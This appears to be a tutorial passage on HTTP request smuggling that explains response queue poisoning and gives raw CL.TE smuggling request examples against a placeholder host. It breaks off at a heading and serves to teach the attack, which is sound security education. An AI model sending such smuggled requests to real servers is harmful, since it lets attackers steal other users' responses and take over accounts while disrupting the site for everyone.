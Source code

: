 ## Response queue poisoning

Response queue poisoning is a powerful request smuggling attack that enables you to steal arbitrary responses intended for other users, potentially compromising their accounts and even the entire site.

Response queue poisoning also causes significant collateral damage, effectively breaking the site for any other users whose traffic is being sent to the back-end over the same TCP connection. While attempting to browse the site as normal, users will receive seemingly random responses from the server, which will prevent most functions from working correctly.

### Aftermath of request smuggling

**Front-end (CL)**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

**Back-end (TE)**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

### Smuggling a complete request
